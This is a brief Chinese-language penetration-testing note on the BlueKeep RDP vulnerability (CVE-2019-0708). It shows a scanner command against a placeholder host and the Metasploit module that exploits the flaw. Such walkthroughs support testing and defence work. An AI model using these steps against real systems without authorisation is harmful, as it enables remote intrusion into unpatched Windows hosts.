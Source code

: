 远程桌面服务远程执行代码漏洞。

## 1 漏洞检测

使用 RDP 漏洞无损扫描器 [0708detector.exe](https://github.com/Pa55w0rd/CVE-2019-0708?tab=readme-ov-file#cve-2019-0708-批量检测) 对目标进行漏洞检测

```shell
PS D:\downloads\CVE-2019-0708-master> .\0708detector.exe -t example.com -p 3389
```

![使用 RDP 漏洞无损扫描器对目标进行漏洞检测](./../../../../images/CVE-2019-0708/%E4%BD%BF%E7%94%A8%20RDP%20%E6%BC%8F%E6%B4%9E%E6%97%A0%E6%8D%9F%E6%89%AB%E6%8F%8F%E5%99%A8%E5%AF%B9%E7%9B%AE%E6%A0%87%E8%BF%9B%E8%A1%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B.png)

## 2 漏洞利用

使用 Metasploit-Framework 的 Exploit `windows/rdp/cve_2019_0708_bluekeep_rce` 进行漏洞利用

```shell
msf6 > use exploit windows/rdp/cve_2019_0708_bluekeep_rce
```

![使用 Metasploit-Framework 进行漏洞利用](./../../../../images/CVE-2019-0708/%E4%BD%BF%E7%94%A8%20Metasploit-Framework%20%E8%BF%9B%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.png)

---

References

- [CVE-2019-0708](https://www.cve.org/CVERecord?id=CVE-2019-0708)
